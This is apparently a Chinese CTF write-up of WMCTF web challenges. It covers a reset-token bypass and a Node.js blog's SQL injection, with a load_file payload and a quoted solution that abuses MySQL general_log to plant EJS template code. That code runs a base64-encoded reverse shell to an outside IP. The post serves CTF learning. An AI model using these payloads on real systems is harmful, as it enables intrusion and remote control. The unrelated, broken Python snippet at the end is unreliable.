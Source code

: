 ```yaml
---
layout: post
title: WMCTF中其他的题目
categories: [blog ]
tags: [Ctf,]
description: "当时禁了非常多的类"
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: azeril.com
 

---
```


![](/img/swirl/11.jpg)

# WMCTF



## 你的权限放我来

![image-20230820170743457](..\img\final\image-20230820170743457.png)

注册登陆后看到其他用户，可以猜想到这是一个数据库

#### 网页功能

用户登陆

用户注册

密码重置

登陆界面回显	

![image-20230820202007118](..\img\final\image-20230820202007118.png)

![image-20230820202741171](..\img\final\image-20230820202741171.png)

![image-20230820202729437](..\img\final\image-20230820202729437.png)

发现直接发送到我的邮箱了

![image-20230820230613247](..\img\final\image-20230820230613247.png)

本来想改密码直接换这个邮箱的毕竟题目源码有几个可疑的，但是发现token会进行校验

### 自己差的地方

都想到更改邮箱了，md直接把token删了呀，然后换上源码的邮箱，就可以更改指定邮箱的密码，然后登陆即可（一个个邮箱试）



## ezblog

当时看这道题得时候发现源码太多了，没耐心看下去，出了wp（来分析分析）

```javascript
app.get("/post/:id/edit", async (req, res) => {
    try {
        // parseInt的性能问题 https://dev.to/darkmavis1980/you-should-stop-using-parseint-nbf
        let id = req.params.id;
        if (!/\d+/igm.test(id) || /into|outfile|dumpfile/igm.test(id)) { // 判断 id是否是纯数字
            res.status(400).send(`Error: '${id}' is invalid id`);
            return;
        }
        // id只能为数字，可以安全的转为number，避免parseInt降低性能
        let post = await (0, posts_1.getPostById)(id);
        res.render("edit", {
            post
        });
    }
    catch (e) {
        res.status(500).send(e);
    }
});
```

/\d+/igm.test(id)这里得校验是字符中含有数字就可以,然后调用posts_1.getPostById，拼接可能造成sql注入

```javascript
function getPostById(id) {
    return new Promise((resolve, reject) => {
        // 使用 number 类型的 id 不会导致 sql 注入，因为数字类型只有0-9的数字，无法构造sql语句
        // TypeScript可以确保传入类型只能为number，不能为字符串，如果为字符串，将会发生编译时错误导致tsc无法编译，所以是安全的
        db_1.connection.query(`select * from Posts where id = ` + id, (err, results) => {
            if (err) {
                reject(err);
            }
            else {
                if (results.length === 0) {
                    reject(new Error("Post not found"));
                }
                else {
                    resolve({
                        id: results[0].id,
                        title: results[0].title,
                        content: results[0].content
                    });
                }
            }
        });
    });
}
```

![image-20230822163807965](..\img\final\image-20230822163807965.png)

发现出现了sql注入报错，说明存在sql这时候![image-20230822163856426](..\img\final\image-20230822163856426.png)

然后我们需要获得ping码，![image-20230822164110854](..\img\final\image-20230822164110854.png)

然后看✌们wp说是从   发现主程序启动的日志在`/home/ezblog/.pm2/logs/main-out.log`中

#### 解决方法

```
根据源码搭建一个docker（这里本地尝试使用dockercompose直接起得，但是起不来）
呃呃呃最后用了lxxx✌得docker
然后需要找启动得日志嘛
find / -name "logs" -type d   全局搜索logs日志文件夹
其实通过看dockerfile文件，能看的差不多
```

![image-20230822172053413](..\img\final\image-20230822172053413.png)

```
但是找了一圈没找到很疑惑

/post/-1%20union%20select%201,2,load_file(0x2f686f6d652f657a626c6f672f2e706d322f6c6f67732f6d61696e2d6f75742e6c6f67)/edit
```

![image-20230822165130652](..\img\final\image-20230822165130652.png)

![image-20230822172203881](..\img\final\image-20230822172203881.png)

然后就可以直接访问/console输入pin码

![image-20230822172243408](..\img\final\image-20230822172243408.png)

然后到了这个界面（如果说上面的拼死命可能做出，但是后面卧槽我是真不行）

#### General_log详解

1、介绍

开启general log将所有到达MySQL Server的SQL语句记录下来

show variables like 'general_log'; -- 查看日志是否开启

set global general_log=on; -- 开启日志功能

show variables like 'general_log_file'; -- 看看日志文件保存位置

set global general_log_file='tmp/general.lg'; -- 设置日志文件保存位置

show variables like 'log_output'; -- 看看日志输出类型 table或file

set global log_output='table'; -- 设置输出类型为 table

set global log_output='file'; -- 设置输出类型为file



#### 回归题目

​	先拿着佬的wp进行一波分析

```java
    CREATE DATABASE mysql;
    CREATE TABLE mysql.general_log(
      event_time timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP,
      user_host mediumtext NOT NULL,
      thread_id int(11) NOT NULL,
      server_id int(10) unsigned NOT NULL,
      command_type varchar(64) NOT NULL,
      argument mediumtext NOT NULL
    ) ENGINE=CSV DEFAULT CHARSET=utf8 COMMENT='General log';
    SET GLOBAL general_log_file='/home/ezblog/views/post.ejs';
    SET GLOBAL general_log='on';
    SELECT "<% global.process.mainModule.require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDIuMjI0LjU3LzQ0NDQgMD4mMQ==}|base64 -d|bash'); %>";
```

![image-20230822221718926](..\img\final\image-20230822221718926.png)

![image-20230822223223891](..\img\final\image-20230822223223891.png)

理想状态是在中间建立表，然后下面渲染模板，用的是docker中的绝对路径（但是却没成功）不知道自己操作哪里错了。







```
f=open("C:\Users\c'x'k\Desktop\misctool\3.zip","rb")#这样读取的内容是二进制的
hex_list=["{:02X}".format(c) for c in f.read()]  #这里的{:02x}是把后面二进制转换为 2位的16进制，不足则补0
hex_str=''.join(hex_list)
reversed_hex_str=hex_str[::-1]
reversed_bytes=bytes.fromhex(reversed_hex_str) #将反转后的16进制字符串转换为字节流
with open('Reverse_reversed.zip','wb') as f:  #打开一个新的二进制文件，将反转后的字节流写入其中
    f.write()
```

